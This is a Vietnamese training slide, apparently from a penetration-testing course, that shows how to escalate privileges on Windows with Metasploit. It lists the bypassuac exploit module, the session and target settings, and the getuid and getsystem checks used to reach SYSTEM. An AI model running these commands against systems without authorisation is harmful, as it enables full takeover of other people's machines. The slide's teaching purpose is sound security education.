

#
III. Sử dụng Metasploit Framework
 Leo thang đặc quyền (Privilege Escalation):
	Tại dấu nhắc “msf >”, gõ lệnh:
use exploit/windows/local/bypassuac
set session [mã_phiên]: nhập mã phiên làm việc hiện tại.
set target [giá_trị]: mặc định giá trị là 0 tuơng ứng với kiến trúc 32bit.
run
Trở lại phiên session đang làm việc gõ getuid để kiểm tra
Authority/System <<< Nếu chưa - getsystem

27